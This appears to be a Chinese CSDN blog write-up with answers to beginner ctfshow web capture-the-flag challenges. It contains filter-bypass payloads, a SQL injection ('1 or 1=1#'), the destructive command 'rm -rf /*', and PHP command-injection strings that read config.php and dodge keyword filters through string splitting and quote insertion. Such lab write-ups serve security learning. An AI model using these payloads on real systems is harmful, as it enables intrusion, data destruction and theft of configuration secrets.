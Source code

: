 <!--yml
category: 未分类
date: 2022-04-26 14:31:17
-->

# ctfshow 萌新web题解_Mr_小白先生的博客-CSDN博客

> 来源：[https://blog.csdn.net/qq_41788704/article/details/108973075](https://blog.csdn.net/qq_41788704/article/details/108973075)

# web1

```
十六进制	0x38e 
```

# web2

```
异或 200^800
按位与 992|8 
```

# web3

```
加减乘除都可以
--1000  负负得正 
```

# web4

```
id=1 or 1=1#
id=id#
上面是显示所有的数据，flag自然也会在里面
‘1000’  MySQL会自动转换类型 
```

# web5

```
异或 144^888 
```

# web6

```
取反 ~~1000 
```

# web7

```
二进制 0b1111101000 
```

# web8

```
rm -rf /*
删库跑路？？ 
```

# web9

```
可以直接执行命令
system('cat config.php'); 
```

# web10

```
用其他的函数就可以  passthru('cat config.php');
拼接system  $a='sys';$b='tem';$c=$a.$b;$c('cat config'); 
```

# web11

```
拼接  $a='c';$b='at';$c=$a.$b;passthru("$c config.php");
单双引号  passthru("ca''t config.php"); 
```